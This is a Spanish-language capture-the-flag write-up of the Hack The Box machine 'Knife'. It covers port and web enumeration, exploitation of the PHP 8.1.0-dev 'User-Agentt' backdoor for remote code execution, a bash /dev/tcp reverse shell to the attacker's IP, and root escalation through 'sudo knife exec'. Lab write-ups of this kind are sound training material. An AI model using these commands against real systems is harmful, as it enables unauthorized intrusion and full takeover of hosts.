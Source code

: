 
# Knife (Linux) ![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/common-images/linux.jpg "Linux")  - Español
![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Linux/Knife/images/logo.jpg "Knife")
Creador de la máquina: **MrKN16H7**
### Writeup por Tnr1112

## Enumeración
### Empezamos escaneando todos los puertos abiertos

    nmap -p- -sS --min-rate 5000 --open -vvv -n 10.10.10.242 -oG allPorts
Lo exporto en modo grepeable para después poder utilizar una función que me extrae los puertos

|PORT|STATE|SERVICE| 
|--|--|--|
|22/tcp|open|ssh|
|80/tcp|open|http|

### Buscamos los servicios que corren los puertos abiertos

```
nmap -sC -sV -p22,80 10.10.10.242 -oN targeted
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Escaneamos buscando alguna vulnerabilidad

    nmap -p22,80 --script=”vuln and safe” 10.10.10.242 -oN vulnSafeScan
Pero no hay suerte :(

### Web
Esta es la web. En el código no hay nada sospechoso.
![](https://github.com/Tnr1112/HTB-Writeups/blob/main/Machines-Maquinas/Easy-Facil/Linux/Knife/images/website.jpg "Website")

### Fuzzing
Utilizamos `gobuster` para enumerar algún directorio, pero no hay suerte.
```
gobuster dir -u http://10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.242
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2021/09/15 13:39:56 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 5815]
Progress: 27126 / 441122 (0.08%)                 ^C
[!] Keyboard interrupt detected, terminating.
                                                
===============================================================
2021/09/15 13:40:03 Finished
===============================================================
```
### Whatweb
Utilizamos el whatweb para ver qué información obtenemos

```
whatweb 10.10.10.242
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

## Exploit PHP 8.1.0-dev User-Agentt
Podemos ver que utiliza **PHP 8.1.0-dev**
Existe una vulnerabilidad que al agregar como Header un **“User-Agentt”** podemos ejecutar código de forma arbitraria.
Yo voy a utilizar el siguiente script: [PHP-8.1.0-dev_WebShell-RCE-Github](https://github.com/ColdFusionX/PHP-8.1.0-dev_WebShell-RCE)

Ejecutamos el .py con el parámetro `-l` le indicamos el host y podremos ejecutar los comandos que queramos

    python3 php8-1RCE2.py -l http://10.10.10.242

Una vez adentro, con `whoami` podemos saber a que usuario pertenece la sesión en la que estamos.
Obtenemos la flag de user en el directorio del usuario james.
```
[+] PHP 8.1.0-dev WebShell RCE by ColdFusionX 
Target is running on PHP 8.1.0-dev
*Shoot your commands below* 

[^] WebShell=- whoami
james

[^] WebShell=- cat /home/james/user.txt
5615f62140ac79f46e2fdb9a04ac9ed0
```
Ahora con sudo -l verificamos los comandos disponibles que se pueden ejecutar con sudo.
```
[^] WebShell=- sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Efectivamente, podemos ejecutar el comando `knife`

> knife es una herramienta de línea de comando que provee una interfaz entre un repositorio de chef local y el Chef Infra Server. 

[Documentación knife](https://docs.chef.io/workstation/knife/)

## Escalada de privilegios

Con el comando `exec` podemos ejecutar código hecho en **ruby**. Por lo que podremos ejecutar cualquier comando que queramos con privilegios.
[Documentación knife exec](https://docs.chef.io/workstation/knife_exec/)
```
[^] WebShell=- sudo knife exec -E 'puts `cat /root/root.txt`'
73e63ad29b6339faea23f15406f2b1a0
```
Para obtener control total podremos abrir una reverse shell.
Nos ponemos a escuchar en el puerto 4444
```
nc -nlvp 4444
listening on [any] 4444 ...
```

En el server ejecutamos:

    [^] WebShell=- /bin/bash -c 'bash -i >&/dev/tcp/Nuestra IP/Nuestro puerto 0>&1'

Para escalar privilegios, abriremos una bash desde knife con `sudo knife exec -E 'exec "/bin/bash -i"'`
```
listening on [any] 4444 ...
connect to [10.10.14.189] from (UNKNOWN) [10.10.10.242] 48064
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ sudo knife exec -E 'exec "/bin/bash -i"'  
sudo knife exec -E 'exec "/bin/bash -i"'
bash: cannot set terminal process group (1018): Inappropriate ioctl for device
bash: no job control in this shell
root@knife:/# whoami
whoami
root
```
Y listo, obtendremos una shell con **root** :)